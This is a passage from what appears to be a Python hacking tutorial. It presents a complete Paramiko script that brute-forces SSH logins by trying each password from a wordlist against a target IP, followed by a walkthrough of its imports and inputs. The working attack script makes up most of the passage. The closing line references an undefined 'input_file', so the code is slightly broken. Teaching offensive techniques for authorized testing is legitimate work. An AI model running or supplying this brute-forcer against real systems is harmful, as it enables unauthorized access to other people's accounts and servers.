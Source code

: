 By now, you should be familiar with the "try" and "except" syntax. This script has one new feature, "def". "Def" allows us to create custom functions, as seen below.  The "ssh_connect" function is not native to Python but built using Paramiko and the "paramiko.SSHClient()" function.

```
import paramiko
import sys
import os

target = str(input('Please enter target IP address: '))
username = str(input('Please enter username to bruteforce: '))
password_file = str(input('Please enter location of the password file: '))

def ssh_connect(password, code=0):
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    try:
        ssh.connect(target, port=22, username=username, password=password)
    except paramiko.AuthenticationException:
        code = 1
    ssh.close()
    return code

with open(password_file, 'r') as file:
    for line in file.readlines():
        password = line.strip()
        
        try:
            response = ssh_connect(password)

            if response == 0:
                 print('password found: '+ password)
                 exit(0)
            elif response == 1: 
                print('no luck')
        except Exception as e:
            print(e)
        pass

input_file.close()
```

Imports: We import modules we will use inside the script. As discussed earlier, we will need Paramiko to interact with the SSH server on the target system. "Sys" and "os" will provide us with the basic functionalities needed to read a file from the operating system (our password list in this case). As we are using Paramiko to communicate with the SSH server, we do not need to import "socket". 

![](https://i.imgur.com/t7BfROX.png)

Inputs: This block will request input from the user. An alternative way to do this would be to accept the user input directly from the command line as an argument using "sys.argv[]".
